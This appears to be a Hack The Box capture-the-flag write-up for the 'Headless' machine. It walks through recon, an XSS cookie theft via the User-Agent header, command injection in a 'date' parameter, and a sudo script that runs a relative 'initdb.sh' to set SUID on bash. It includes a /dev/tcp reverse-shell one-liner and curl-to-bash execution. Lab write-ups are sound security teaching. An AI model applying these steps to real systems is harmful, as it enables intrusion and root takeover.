









<h1 align="center"> Headless </h1>

<p align="center">
    <a href="https://app.hackthebox.com/machines/594">
        
    </a>
</p>

## Table of Contents

1. [Service Enumeration](#1-recon)
2. [Service analysis on TCP/5000](#2-tcp-5000)
3. [XSS to steal admin cookie](#3-xss)
4. [RCE](#4-rce)
5. [Privilege Escalation](#5-user-to-root)
6. [Pwned Info](#pwned-info)

## 1. Recon

```bash
└─$ nmap -sC -sV -oA nmap/initial 10.10.11.8
Nmap scan report for 10.10.11.8
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Mon, 25 Mar 2024 09:25:09 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.94SVN%I=7%D=3/25%Time=660142F3%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,BE1,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\.2\
SF:x20Python/3\.11\.2\r\nDate:\x20Mon,\x2025\x20Mar\x202024\x2009:25:09\x2
SF:0GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:
SF:\x202799\r\nSet-Cookie:\x20is_admin=InVzZXIi\.uAlmXlTvm8vyihjNaPDWnvB_Z
SF:fs;\x20Path=/\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\
SF:x20lang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\
SF:x20\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-wid
SF:th,\x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Under\x20Construct
SF:ion</title>\n\x20\x20\x20\x20<style>\n\x20\x20\x20\x20\x20\x20\x20\x20b
SF:ody\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-family:\
SF:x20'Arial',\x20sans-serif;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20background-color:\x20#f7f7f7;\n\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20margin:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20padding:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20di
SF:splay:\x20flex;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20justif
SF:y-content:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:align-items:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20height:\x20100vh;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\n\x20\x20\x20\
SF:x20\x20\x20\x20\x20\.container\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20text-align:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20background-color:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20border-radius:\x2010px;\n\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20box-shadow:\x200px\x200px\x2020px\x20rgba\(0,\x20
SF:0,\x200,\x200\.2\);\n\x20\x20\x20\x20\x20")%r(RTSPRequest,16C,"<!DOCTYP
SF:E\x20HTML>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20
SF:\x20\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x
SF:20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x
SF:20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20resp
SF:onse</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>
SF:\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20vers
SF:ion\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\
SF:x20code\x20explanation:\x20400\x20-\x20Bad\x20request\x20syntax\x20or\x
SF:20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar 25 10:26:42 2024 -- 1 IP address (1 host up) scanned in 111.31 seconds
```

## 2. TCP-5000

There is an active service on port 5000 ! 

<p align="center">
  
</p>

Clicking "For questions" redirects us to the **/support** page.

<p align="center">
  
</p>

To understand if other endpoints exist, I start *gobuster*, finding another endpoint.

```bash
└─$ gobuster dir -u http://headless.htb:5000/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://headless.htb:5000/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/support              (Status: 200) [Size: 2363]
/dashboard            (Status: 500) [Size: 265]
```

By visiting the **/dashboard** endpoint we see that we are not authorized to view that page.

<p align="center">
  
</p>

## 3. XSS

The fact that it is present:

1. a support form;
2. an "is_admin" cookie;
3. dashboard accessible only by an admin;

It makes me think about the possible presence of an XSS that I need to steal the admin cookie. Then I intercept the request made by the *support* page and insert the following payload in the message field: ``

<p align="center">
  
</p>

But the server recognizes the hacking attempt. So I tried to receive the cookie by placing the payload in the *User-Agent* field.

<p align="center">
  
</p>

## 4. RCE

The XSS was successful so we can set the cookie and see the contents of the *dashboard*.

<p align="center">
  
</p>

By clicking "Generate Report" we see the message that the server returns.

<p align="center">
  
</p>

This makes us think of a possible RCE (which is however very frequent in easy machines); then we intercept the request and add a ";" followed by a command after the *date* parameter.

<p align="center">
  
</p>

We get the result of the `pwd` command so we proceed with a reverse shell. I started by directly entering the command `/bin/bash -i >& /dev/tcp/IP/1337 0>&1` with no results, so I proceeded by placing the command in a file and loaded and ran it via curl in pipe with bash and I had the shell.

<p align="center">
  
</p>

In */home/dvir* there is the user flag.

## 5. User to ROOT

To escalate, we start by running the *sudo -l* command.

```bash
dvir@headless:~/app$ sudo -l
sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

As you can see, you can run the *syscheck* command as superuser without knowing the password.

```bash
dvir@headless:~/app$ cat /usr/bin/syscheck
cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1                                                    
fi
                                                        
last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)                                                                                                                    
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

Analyzing the contents of the file, we can see that a script called **initdb.sh** is executed. 

So the steps to follow are:

* create the file **initdb.sh** by entering the command to set the SUID to */bin/bash*;
* make the newly created script executable;
* run *syscheck* as superuser;
* run `bash -p`.

```bash
dvir@headless:~/app$ echo "chmod u+s /bin/bash" > initdb.sh
echo "chmod u+s /bin/bash" > initdb.sh
dvir@headless:~/app$ chmod +x initdb.sh
chmod +x initdb.sh
dvir@headless:~/app$ sudo /usr/bin/syscheck
sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.10, 0.03, 0.01
Database service is not running. Starting it...
dvir@headless:~/app$ bash -p
bash -p
whoami
root
```

In */root* there is the root flag.

## Pwned Info

<p align="center">
    <a href="https://www.hackthebox.com/achievement/machine/805273/594">
        
    </a>
</p>